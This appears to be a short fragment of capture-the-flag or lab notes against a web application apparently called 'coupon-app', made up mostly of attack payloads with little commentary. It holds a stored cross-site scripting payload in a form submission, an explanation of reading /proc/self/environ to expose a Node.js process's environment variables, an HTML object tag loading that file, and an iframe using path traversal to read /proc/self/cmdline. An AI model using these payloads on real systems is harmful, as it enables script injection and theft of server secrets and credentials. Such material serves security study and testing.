


```
name=hi&password=hi&email=hi%40gmail.com&address=<script>document.body.innerHTML%2b=`<p+id="url-display">${window.location.href}</p>`;</script>\
```



On Linux-based servers, the operating system exposes information about currently running processes via the virtual /proc file system. Every process has access to its own environment variables through a special file shortcut.

Target Path: /proc/self/environ
Alternative Path: /proc/[PID]/environ (where [PID] is the process ID of the Node.js application)

```html
<object data="file:///proc/self/environ" type="text/plain" width="100%" height="400"></object>
```


```
<iframe src="http:///coupon-app:8000/key?file=../../../../proc/self/cmdline" width="100%" height="200"></iframe>
```
